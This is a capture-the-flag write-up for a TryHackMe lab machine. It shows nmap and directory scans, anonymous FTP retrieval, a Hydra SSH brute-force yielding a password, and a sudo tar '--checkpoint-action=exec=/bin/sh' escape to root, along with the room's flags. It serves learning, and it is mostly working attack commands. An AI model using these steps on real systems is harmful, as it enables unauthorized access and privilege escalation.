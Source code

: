 # Bounty Hacker

IP -- 10.10.0.34

## Scans

### Nmap

Initial nmap scan:
```bash
nmap -sC -sV -oN scans/nmap.initial 10.10.0.34
```

Open Ports Found:
```
21 -- ftp
22 -- ssh
80 -- webpage
```

### DirBuster

Directories found:
```
/images
/icons -- 404 Not Found
/icons/small -- 403 Forbidden
```

## FTP

Connecting to FTP and `GET`ting files
```
ftp> open
(to) 10.10.0.34
ftp> user
(username) ftp
ftp> get
(remote-file) task.txt
(local-file) task.txt
ftp> get
(remote-file) locks.txt
(local-file) locks.txt
```

found username `lin` in `task.txt` and wordlist `locks.txt`


## Hydra 

Bruteforcing username `lin` with `locks.txt` pwlist
```
hydra -l lin -P locks.txt 10.10.0.34 -t 4 ssh
```

found credentials `lin:RedDr4gonSynd1cat3`


## SSH into Machine

```
ssh lin@10.10.0.34
```

User flag found `THM{CR1M3_SyNd1C4T3}`

Privesc by:
```bash
sudo -l
```

and searching for `tar` on [gtfoBin](https://gtfobins.github.io/gtfobins/tar/)

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Root flag found `THM{80UN7Y_h4cK3r}`

---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)
